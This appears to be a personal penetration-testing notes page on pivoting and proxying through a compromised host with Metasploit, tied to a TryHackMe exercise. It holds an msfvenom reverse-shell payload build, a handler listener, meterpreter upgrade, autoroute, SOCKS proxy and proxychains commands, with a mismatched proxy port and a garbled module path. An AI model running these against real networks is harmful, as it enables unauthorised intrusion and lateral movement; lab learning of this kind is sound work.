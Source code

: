 
# Pivoting and Proxying with Metasploit

## Introduction

Pivoting is when an attacker gains foothold on the compromised machine, which then need to be  used to send additional web traffic through to allow previously inaccessible machines to be reached, pivoting though the machine to other in the internal networking. Consider reading [[Port-Redirection-And-Tunneling]], [[Lateral-Movement]], [[Proxies]] and [[Evading-Firewalls]].

Terms used are like many in cyebr security some what interchangable, I personally am looking for to the standardisation that will occur  

### Setup

Get regular or meterpreter shell on target:
```bash
msfvenom -p windows/x64/$SHELL/reverse_tcp -f exe -o shell.exe LHOST=$IP LPORT=$LPORT
```

Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```ruby
use multi/handler
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```

For convert shell to meterpreter
```ruby
sessions -u -1 # -1 is the sessions number
```

### Auto-Routing our Traffic

```ruby
use post/multi/manage/autoroute
set SESSION 1
set netmask /CIDR
set subnet $IP
exploit
```

Configuration, [reference](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)
```ruby
route # display the active routes
route add <IP ADDRESS OF SUBNET> <NETMASK> <GATEWAY
	  remove
	  flush	# remove all routes from routing table
```

To change the autoroute from one route to another
```ruby
route remove IP/CIDR SESSIONID
route add IP/CIDR SESSIONID
route get
```

## Setting up Proxy with Metasploit

Note: Depending on what version of Metasploit you are using, the Proxy Server module will be different. 
MSF5 and lower will have auxiliary/server/socks4a or socks5, MSF6 and newer will have `socks/auxiliary/socks\_proxy`. With MSF6, you will need to specify if you want to use SOCKS4(a) or SOCKS5. See [[SOCKS5-Protocol]].
```ruby
use auxiliary/server/socks4a
# msf6 !!
use auxiliary/server/socks_proxy 
run srvhost=127.0.0.1 srvport=9050 version=4a
curl --proxy socks4a://localhost:950 http://$target_ip
```
Configure proxychains
```bash
vim /etc/proxychains.conf
# comment lines that aren't required or you'll create a longer misconfigured chain
socks$4-5 127.0.0.1 $AUXILIARY-SERVER-PORT-NUMBER-GOES-HERE
```


## References

[THM Alh4r3d's Pivoting with Metasploit day 9 for AoC 4](https://tryhackme.com/room/adventofcyber4#)